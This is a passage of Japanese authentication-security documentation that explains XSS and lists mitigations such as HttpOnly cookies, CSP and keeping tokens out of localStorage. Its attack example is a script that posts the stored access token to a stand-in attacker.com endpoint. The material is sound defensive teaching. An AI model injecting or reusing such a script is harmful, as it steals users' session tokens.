 # セキュリティ対策とベストプラクティス

> **🛡️ 認証・認可 > セキュリティ対策**
> 本ドキュメントでは、認証実装における脅威と対策、2025年のベストプラクティスをまとめています。XSS、CSRF、フィッシング等の典型的な攻撃手法と、それらに対する具体的な対策を解説します。

## 前提知識

- **[概要](auth-basics.md)** - 認証・認可の基礎
- **[OAuth 2.0 / OIDC](oauth-oidc-basics.md)** - プロトコルの詳細

## 関連ドキュメント

- 実装: **[実装ガイド](implementation-guide.md)** - セキュアな実装方法
- 詳細: **[包括的リファレンス](authentication-guide.md)** - 最新セキュリティ技術

---

## 目次

1. [典型的な脅威と対策](#典型的な脅威と対策)
2. [トークン管理のベストプラクティス](#トークン管理のベストプラクティス)
3. [Cookie のセキュリティ設定](#cookie-のセキュリティ設定)
4. [最新セキュリティ技術](#最新セキュリティ技術)
5. [2025年の重要トピック](#2025年の重要トピック)

---

## 典型的な脅威と対策

### 1. XSS(Cross-Site Scripting)

#### XSSの攻撃内容

悪意あるJavaScriptを注入し、トークンやCookieを盗む。

```html
<!-- 攻撃例 -->
<script>
  // LocalStorageからトークンを盗む
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: localStorage.getItem('accessToken')
  });
</script>
```

#### XSSの対策

| 対策 | 説明 | 優先度 |
|------|------|--------|
| **HttpOnly Cookie** | JavaScriptからアクセス不可 | 🔴 必須 |
| **CSP** | Content Security Policy設定 | 🔴 必須 |
| **入力サニタイズ** | ユーザー入力のエスケープ | 🔴 必須 |
| **Trusted Types** | DOM操作の型チェック | 🟡 推奨 |
| **トークンはメモリのみ** | LocalStorage禁止 | 🔴 必須 |
